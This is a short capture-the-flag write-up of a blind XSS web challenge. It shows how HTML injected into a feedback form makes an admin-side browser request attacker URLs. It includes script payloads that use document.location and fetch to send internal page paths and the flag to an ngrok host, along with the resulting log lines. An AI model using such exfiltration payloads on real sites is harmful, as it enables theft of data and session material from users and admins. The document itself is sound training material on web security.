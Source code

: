 # bxss

**Date:** 09, June, 2021

**Author:** Dhilip Sanjay S

**Category:** Web

---

- The `feedback` page in the website was accepting html tags as input.
- If there was url in the input, like inside `<img>` and `<script>` tags, the server was making request to that URL.

## Using ngrok

- Using ngrok, I tried to fetch the `document.cookie` at first.
- But there was no cookie. (May be the cookie had `HttpOnly flag`)
- Then found the `document.loction` using the same:

```js
<script>document.location='http://1659bf86e1d6.ngrok.io?c='+document.location</script>
```

- There was a **secret admin cookie panel** at `http://0.0.0.0:8080`:

```bash
127.0.0.1 - - [09/Jun/2021 15:28:46] "GET /?c=http://0.0.0.0:8080/Secret_admin_cookie_panel HTTP/1.1" 200 -
```

## Fetching flag

- By using `fetch` API in javascript, the flag can be fetched from `http://0.0.0.0:8080/flag`
- And then the response can be sent to `ngrok`:

```js
<script>
fetch("http://127.0.0.1:8080/flag").then(r=>r.text()).then((r)=>{location="http://1659bf86e1d6.ngrok.io/?c="+r})
</script>
```

- The request had the flag:

```
127.0.0.1 - - [05/Jun/2021 00:52:46] "GET /?c=zh3r0{{Ea5y_bx55_ri8}} HTTP/1.1" 200 -
```

---